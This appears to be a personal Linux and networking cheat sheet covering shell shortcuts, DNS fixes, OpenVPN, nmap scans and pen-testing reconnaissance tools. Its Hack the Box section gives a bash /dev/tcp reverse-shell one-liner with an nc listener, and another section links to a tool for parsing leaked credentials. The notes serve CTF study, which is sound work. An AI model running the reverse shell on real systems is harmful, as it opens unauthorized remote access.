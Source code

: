 
### Common commands
```sh
$ hostname                   # show or set system's hostname
$  history | grep netstat    # search the command  history
$ cd -                       # navigate to previous directory
$ Ctrl + A                   # navigate to start of command
$ Ctrl + E                   # navigate to the end of command
$_ shell variable            # in bash, is the last argument given to the previous command
!$ shell variable            # in bash, gives the last argument of previous command in the shell history
mkdir -p a/b/c/d/e && cd $_  # create folder and switch to it
$! shell variable            # the PID of the last executed command
du -ch                       # estimate file space usage
su -                         # switch to root user
tar -xvf file.tar            # extract file
```


### Network commands
```sh
$ ifconfig                   # configure/view network interfaces
$ ping -c 5 www.google.com   # ping 5 times
$ arp                        # manipulate the system ARP cache
```


### Magic bytes
* https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
* Example: 
 ```$ echo "GIF8;" > testfile.file```
 ```$ file testfile.file```   # outputs  **testfile.file: GIF image data**



### Hack the box
https://0x00sec.org/t/my-hackthebox-ctf-methodology-from-fresh-box-to-root/13980

**Bach reverse shell**
* https://github.com/fijimunkii/bash-dev-tcp/blob/master/reverse-shell
Example: ```bash -i >& /dev/tcp/10.10.14.150/9001 0>&1```   plus   ```nc -lvnp 9001``` to listen


### DNS configuration issues

**ping: www.google.com: Temporary failure in name resolution**

* https://stackoverflow.com/questions/53687051/ping-google-com-temporary-failure-in-name-resolution
* https://www.tecmint.com/set-permanent-dns-nameservers-in-ubuntu-debian/
 
    On modern Linux systems that use systemd (system and service manager), the DNS or name resolution services are provided to local applications via the systemd-resolved service. 
    It uses the systemd DNS stub file (**/run/systemd/resolve/stub-resolv.conf**) in the default mode of operation.
    The DNS stub file contains the local stub **127.0.0.53** as the only DNS server.
    
    ```ls -l /etc/resolv.conf``` - you will see that this file is a symlink to the /run/systemd/resolve/stub-resolv.conf file.
    Unfortunately, because the /etc/resolv.conf is indirectly managed by the systemd-resolved service, any changes made manually by a user can not be saved permanently or only last for a while.
    
    Quick fix - just to modify the **/etc/resolv.conf** to 8.8.8.8



## Open VPN server
Install and configure 
* https://interface31.ru/tech_it/2019/10/nastroyka-openvpn-servera-dlya-dostupa-v-internet.html  (russian)

**restart**
```
sudo systemctl stop openvpn@server
sudo systemctl enable openvpn@server.service
sudo systemctl start openvpn@server
```


## Start a python2 web server

 ``` python -m SimpleHTTPServer 80```
 
 
 ## Pen Testing
 * **Target validation** - WHOIS, nslookup, dnsrecon
 * **Finding subdomains** - Google Fu, dig, Nmap, Sublist3r, Bluto, crt.sh, etc
 * **Fingerprinting** - nmap, Wappalyzer, BuiltWith, Netcat
 * **Data Breaches** - HaveIBeenPwned and similar
 * **Also** - Nikto, Nessus, Burp Suite, dirbuster, searchsploit, metasploit, 
 * parsing leaked credentials - https://github.com/hmaverickadams/breach-parse

### nmap (press UP key to see the status)
* **TCP**  - SYN - SYN ACK - ACK 
* **nmap** -  SYN - SYN ACK - RST
1. **nmap "ping scan"** - ``` nmap -sn 10.0.2.0/24```  show all the nodes in a network
2. ```nmap -T4 <host>``` - top 1000 widely used ports scanned 
3. ```nmap -T4 -p- <host>``` - all ports scanned 
4. ```nmap -sC -sV -oA output <host>``` - this seems faster 
5. ```nmap -T4 -p22,80,443 <host>``` - selective ports scanned (can add here ```-A``` for more info)
6. ```/usr/share/nmap/scripts``` - nmap usefull scripts (example  ```nmap -p443 --script=ssl-enum-ciphers utm.md```)



